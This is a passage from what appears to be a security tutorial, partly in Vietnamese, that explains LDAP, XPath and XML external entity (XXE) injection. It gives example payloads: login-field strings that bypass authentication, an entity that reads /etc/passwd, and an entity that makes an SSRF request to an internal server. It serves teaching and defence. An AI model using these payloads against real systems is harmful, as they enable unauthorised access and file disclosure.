 **3. LDAP Injection:**

```
// Vulnerable query
(&(uid=$username)(password=$password))

// Injection
username: admin)(&)
password: anything

// Result query
(&(uid=admin)(&)(password=anything))
→ (&(uid=admin) → True
```

---

**4. XPath Injection:**

```xml
<!-- Vulnerable query -->
//users/user[username='$user' and password='$pass']

<!-- Injection -->
username: ' or '1'='1
password: ' or '1'='1

<!-- Result -->
//users/user[username='' or '1'='1' and password='' or '1'='1']
```

---

**5. XML Injection / XXE (XML External Entity):**

**Vulnerable XML parser:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
  <name>&xxe;</name>
</user>
```
→ XML parser đọc `/etc/passwd` và trả về trong response

**XXE với SSRF:**
```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal-server/admin">
]>
```
→ Exploit internal services

---
